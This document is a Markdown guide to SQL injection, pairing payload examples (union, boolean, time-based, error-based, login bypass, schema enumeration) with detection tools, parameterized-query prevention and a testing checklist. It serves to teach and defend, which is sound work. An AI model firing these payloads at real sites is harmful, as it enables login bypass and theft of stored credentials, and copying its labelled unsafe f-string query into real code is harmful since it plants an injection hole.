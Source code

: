 # SQL Injection Attack Guide

## Overview
SQL injection is a code injection technique that might destroy your database. It is one of the most common web hacking techniques.

## What is SQL Injection?

SQL injection is the placement of malicious code in SQL statements, via web page input.

## Common SQL Injection Patterns

### 1. Union-Based Injection
```sql
' UNION SELECT username, password FROM users --
```

### 2. Boolean-Based Injection
```sql
' OR 1=1 --
```

### 3. Time-Based Injection
```sql
' AND (SELECT * FROM (SELECT(SLEEP(5)))a) --
```

### 4. Error-Based Injection
```sql
' AND (SELECT * FROM (SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) --
```

## Detection Methods

### Manual Testing
1. **Single Quote Test**: `'`
2. **Double Quote Test**: `"`
3. **Comment Test**: `--`
4. **AND/OR Test**: `1' AND '1'='1`

### Automated Tools
- SQLMap
- Burp Suite
- OWASP ZAP

## Prevention Techniques

### 1. Parameterized Queries
```python
# Safe
cursor.execute("SELECT * FROM users WHERE id = ?", (user_id,))

# Unsafe
cursor.execute(f"SELECT * FROM users WHERE id = {user_id}")
```

### 2. Input Validation
- Whitelist allowed characters
- Validate data types
- Escape special characters

### 3. Stored Procedures
- Use stored procedures instead of dynamic SQL
- Implement proper parameter binding

## Real-World Examples

### Example 1: Login Bypass
```sql
Username: admin'--
Password: anything
```

### Example 2: Data Extraction
```sql
' UNION SELECT column_name, NULL FROM information_schema.columns --
```

### Example 3: Database Enumeration
```sql
' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = database() --
```

## Security Testing Checklist

- [ ] Test all input fields
- [ ] Try various injection techniques
- [ ] Verify error handling
- [ ] Check for blind SQL injection
- [ ] Test secondary order SQL injection

## Impact Assessment

**Low Impact**: Read access to non-sensitive data
**Medium Impact**: Read access to user credentials
**High Impact**: Full database access or deletion
**Critical Impact**: Database server compromise

## References

- OWASP SQL Injection Prevention Cheat Sheet
- MITRE ATT&CK T1190: Exploit Public-Facing Application
- Common Vulnerabilities and Exposures (CVE) database